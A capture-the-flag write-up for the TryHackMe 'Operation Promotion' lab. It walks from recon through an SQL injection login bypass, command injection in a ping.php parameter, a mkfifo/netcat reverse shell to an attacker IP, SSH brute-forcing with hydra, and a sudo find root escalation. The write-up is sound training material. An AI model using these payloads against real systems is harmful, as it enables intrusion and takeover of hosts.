# Operation Promotion

**Difficulty:** 🟢 Easy · **Room:** [TryHackMe ↗](https://tryhackme.com/room/operationpromotion)

You are up for promotion at **Hadron Security**. Your senior lead, Mara, has handed you a solo engagement against RecruitCorp, a small recruiting firm with a public-facing portal. Compromise the host, capture the flags, and demonstrate that you are ready for the Penetration Tester title.

---

## Reconnaissance

I began with an `nmap` scan:

```bash
nmap 10.80.132.226 -p-
```

After that, I followed up with another scan, this time enumerating versions and using nmap's default scripts:

```bash
nmap 10.80.132.226 -p 22,80,139,445 -sV -sC
```

Results:



The machine had four open ports. SSH was running on port 22 with `OpenSSH 9.p1`. HTTP was running on port 80 — the web page turned out to be RecruitCorp's careers portal — and `/robots.txt` disallowed the `/admin` endpoint. SMB was also running on both 139 and 445. I tried listing the SMB shares:

```bash
smbclient -L //10.80.132.226 -N
```

It worked — there were two shares: `/public` and `IPC$`. I logged into both and tried to extract whatever files I could. I was only able to get one file, `README.txt`, from the `/public` share, though it didn't contain anything interesting:

```text
This share is reserved for future internal file distribution.
Nothing to see here yet.
- IT
```

---

## Initial Access

Next, I visited the web page — a career portal focused on hiring. Then I navigated to the `/admin` endpoint, which was a login page for administrators. First, I tested whether the login form was vulnerable to SQL injection (SQLi), and it was. By submitting the following payload:

```text
' OR 1=1 -- -
```

I was able to log in as an admin:



---

## Privilege Escalation

### www-data

The admin portal had a user lookup feature — providing a user's ID returned more information about them. After looking up a few users, I found a `sysmaint` account with an interesting note attached:



It revealed that an `/admin/sysmaint-checks/ping.php` endpoint exists. I navigated to it and was shown how to use the feature:

```text
Usage: /admin/sysmaint-checks/ping.php?host=<target>
```

So this feature takes a `host` parameter and presumably pings it. I tested it with one address:



The response looked like raw system output. Given how weak the security on the login page had been, the underlying command was probably something like this, with the parameter left unsanitized:

```bash
ping -c1 $host
```

So I tried escaping the `ping` command with `;`. Setting `host=;whoami` confirmed a command injection vulnerability. I then set the `host` parameter to a reverse shell payload (URL-encoded first):

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.129.235 4444 >/tmp/f
```

This gave me a reverse shell:



### jford

After that, I read the contents of `/var/www/html/admin/index.php`, which explained why the SQL injection worked:

```php
$u = $_POST['username'] ?? '';
$p = $_POST['password'] ?? '';


$query = "SELECT id, username FROM users WHERE username='$u' AND password='$p'";
```

There was no input sanitization at all.

Next, I started browsing the system for files that might help with escalation. I found a `db.conf` file in `/var/www/html/config`, which contained a hash of `jford`'s database password:



However, I wasn't able to crack the hash. I also found an `app.db` file in `/var/lib/recruitcorp`. I transferred it to my system and opened it with `sqlite3` — it contained passwords for user accounts:



However, none of these passwords worked over SSH. Next, I tried to brute-force SSH for `jford`, since I'd found that user in `/etc/passwd`. I created a custom wordlist with `john`, based on the keyword `spring2026`, which I'd spotted on the webpage:


```bash
john --wordlist=base_words.txt --rules=dive --stdout > passwords.txt 
```

I ran `hydra` and successfully cracked the password:



I logged in via SSH and got the first flag:



### root

After logging in as `jford`, I checked `sudo -l` to see which commands I could run as root:



I could run `find` as root. Using [GTFOBins](https://gtfobins.org/), I found a way to get a root shell:

```bash
sudo -u root find . -exec /bin/sh \; -quit
```

Running this escalated me to root and got me the second flag:



---

## Kill Chain

This box was a short, tidy chain from an anonymous visitor to root. SMB access turned out to be a dead end — the only readable file had nothing useful in it — so the real starting point was `/robots.txt` hinting at a hidden `/admin` page. That page's login form was vulnerable to SQL injection, which was enough to authenticate without valid credentials. From the admin panel, a user lookup feature exposed an internal note pointing to a diagnostic `ping.php` endpoint, and that endpoint turned out to pass its input straight into a shell command, giving command injection and a reverse shell as `www-data`.

Getting from `www-data` to a real user account came down to a keyword spotted on the public website: building a wordlist around it was enough to crack `jford`'s SSH password, since neither the disclosed database hash nor the passwords in `app.db` panned out. From there, an overly permissive `sudo` rule for `find` made the final jump to root a one-liner.

`/robots.txt → SQLi login bypass → command injection in ping.php → www-data → cracked SSH password → jford → sudo find → root`

- **Initial Access:** `/robots.txt` hints at `/admin` → SQL injection bypass → authenticated as admin
- **Privilege Escalation:** User lookup feature discloses an internal note → command injection in `ping.php`'s `host` parameter → reverse shell as `www-data`
- **Privilege Escalation:** Source code review confirms the SQLi flaw; a keyword from the public site fuels a custom wordlist → brute-forced `jford`'s SSH password → shell as `jford`, first flag
- **Final Escalation:** Unrestricted `sudo` rights on `find` (GTFOBins) → root shell, second flag

> Thanks for reading!